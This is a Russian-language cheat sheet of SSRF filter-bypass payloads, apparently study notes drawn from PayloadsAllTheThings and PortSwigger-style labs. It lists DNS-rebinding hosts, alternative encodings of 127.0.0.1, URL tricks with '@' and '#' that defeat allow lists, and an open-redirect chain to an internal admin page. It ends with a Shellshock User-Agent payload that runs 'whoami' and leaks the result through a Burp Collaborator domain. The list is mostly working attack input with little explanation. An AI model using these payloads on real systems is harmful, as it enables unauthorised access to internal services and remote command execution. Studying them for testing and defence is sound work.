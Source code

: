 [PayloadsAllTheThings/Server Side Request Forgery](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#blind-ssrf)
## Защита чёрного списка

### DNS rebinding
- make-1.2.3.4-rebind-127.0-0.1-rr.1u.ms
- double.terjanq.me
- 7f000001.2223367c.rbndr.us
### Альтернативное представление IP-адреса
127.0.0.1:
1. 2130706433
2. 017700000001
3. 127.1
4. spoofed.burpcollaborator.net
### URL-кодировки и разные варианты регистра
### Замена https на http и наоборот

## Защита белого списка

### Вставка учётных данных в URL-адрес перед именем хоста, используя символ @:
1. https://ожидаемый-хост:какойтоПароль@зловредный-хост
### Использование символа # для обозначения якоря в URL:
1. https://зловредный-хост#ожидаемый-хост
### Использование иерархии DNS-имён, чтобы поместить необходимые входные данные в полное DNS-имя, которым можно управлять
1. https://ожидаемый-хост.зловредный-хост
### URL кодировки
### Всё вместе:
1. http://localhost:80#@stock.weliketoshop.net/admin
## Open redirect
`stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=1%26path=http://192.168.0.68/admin`

## Blind SSRF
### Shell Shock
User-Agent: `() {:;}; $(whoami).burpcollaborator.net`
Referer: `http://192.168.0.$1$`